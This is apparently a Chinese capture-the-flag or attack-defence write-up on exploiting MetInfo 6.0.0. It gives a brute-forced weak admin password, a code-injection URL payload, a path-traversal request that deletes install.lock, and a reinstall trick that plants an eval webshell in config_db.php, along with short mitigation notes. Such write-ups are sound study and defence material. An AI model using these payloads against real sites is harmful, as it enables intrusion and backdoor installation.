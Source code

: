 CMS通常会有许多安全研究员挖掘漏洞，所以我们需要拿到版本号去搜寻，拿现成漏洞
网站最下方拿到`Powered by  MetInfo  6.0.0 `

[metinfo 6.0.0漏洞](https://www.anquanke.com/post/id/154149#h2-3)
分析得到这个CMS存在很多现有的漏洞，我们可以直接去利用


## 解题步骤
通过以下思路得到后台口令
1. 暴力破解 
2. 从数据库中得到密码

暴力破解得到弱口令`admin/admin123`


最后以下为进入后台后的payload
`admin/column/save.php?name=123&action=editor&foldername=upload&module=22;phpinfo();/*`
`http://101.71.29.6:10017/upload/`



## 防护方法
修改后台密码
上过滤补丁，在漏洞没有过滤的地方加上过滤，将常见的危险代码过滤





# 6. 后台任意文件删除+安装getshell漏洞

## 解题步骤
进入后台，执行以下poc，删除掉安装文件
`http://101.71.29.6:10017/admin/app/batch/csvup.php?fileField=test-1&flienamecsv=../../../config/install.lock`

删除成功后，访问根目录，发现需要重新安装
在重新安装的时候，我们在数据库名中输入`met#*/@eval($GET[1]);/*`

在过程中无需理会出现数据库安装出现报错的原因，
因为只需要将写入的代码拼接到文件中即可

，然后安装成功后，在`/config/config_db.php`中可以使用该后门






## 防护方法
把后台口令修改掉
上过滤补丁，在漏洞没有过滤的地方加上过滤，将常见的危险代码过滤


# 7. 任意命令执行
通过分析，我们得到该CMS是比较完善的，除了本身在配置上存在的问题需要进行检查之外，比较难挖掘出CMS本身的漏洞，所以如果继续挖掘，建议
通过seay去找到具有危险性的代码，去分析这些先
